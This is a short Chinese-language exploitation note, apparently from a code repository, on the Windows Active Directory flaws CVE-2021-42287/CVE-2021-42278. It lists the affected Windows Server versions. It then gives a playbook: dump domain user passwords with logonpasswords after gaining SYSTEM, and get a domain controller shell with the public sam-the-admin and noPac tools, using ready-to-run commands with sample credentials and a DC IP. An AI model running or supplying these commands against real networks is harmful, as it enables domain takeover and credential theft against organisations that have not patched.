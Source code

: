 ### CVE-2021-42287/CVE-2021-42278

#### 影响范围

> Windows Server 2012 R2 (Server Core installation)
>
> Windows Server 2012 R2
>
> Windows Server 2012 (Server Core installation)
>
> Windows Server 2012
>
> Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
>
> Windows Server 2008 R2 for x64-based Systems Service Pack 1
>
> Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core 
> installation)
>
> Windows Server 2008 for x64-based Systems Service Pack 2
>
> Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
>
> Windows Server 2008 for 32-bit Systems Service Pack 2
>
> Windows Server 2016 (Server Core installation)
>
> Windows Server 2016
>
> Windows Server, version 20H2 (Server Core Installation)
>
> Windows Server, version 2004 (Server Core installation)
>
> Windows Server 2022 (Server Core installation)
>
> Windows Server 2022
>
> Windows Server 2019 (Server Core installation)
>
> Windows Server 2019

#### 漏洞利用

##### 获得一个域用户权限

通过提权漏洞得到`SYSTEM`权限，执行`logonpasswords`，得到域用户密码。

##### 获取DC的Shell

- sam-the-admin

  > https://github.com/WazeHell/sam-the-admin

  ```bash
  python3 sam_the_admin.py "mingy/bob:1qaz@PASS" -dc-ip 10.10.10.10 -shell
  ```

- noPac

  > https://github.com/Ridter/noPac

  ```bash
  proxychains python3 noPac.py -use-ldap mingy.local/bob:1qaz@PASS -dc-ip 10.10.10.10 -shell
  ```

  